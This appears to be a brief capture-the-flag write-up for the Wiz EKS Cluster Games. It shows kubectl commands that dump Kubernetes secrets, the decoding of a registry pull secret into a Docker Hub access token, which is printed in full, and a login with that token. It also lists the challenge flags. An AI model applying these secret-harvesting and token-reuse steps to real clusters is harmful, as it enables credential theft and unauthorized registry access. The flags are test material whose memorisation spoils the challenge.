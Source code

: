 # WizEKS
https://eksclustergames.com/

**1. challenge:**
kubectl get secrets -o yaml

wiz_eks_challenges{omg_overprivileged_secrets}



**2. challenge:**
kubectl describe pod database-pod-2c9b3a4e

  Image: eksclustergames/base_ext_image

kubectl get pod database-pod-2c9b3a4e -o yaml

   imagePullSecrets:
   
      - name: registry-pull-secrets-780bab1d


kubectl get secret registry-pull-secrets-780bab1d -o jsonpath="{.data.\.dockerconfigjson}" | base64 --decode

  base64 decode
  
    - eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo

crane auth login docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo


crane config eksclustergames/base_ext_image

wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}



**3. challenge**

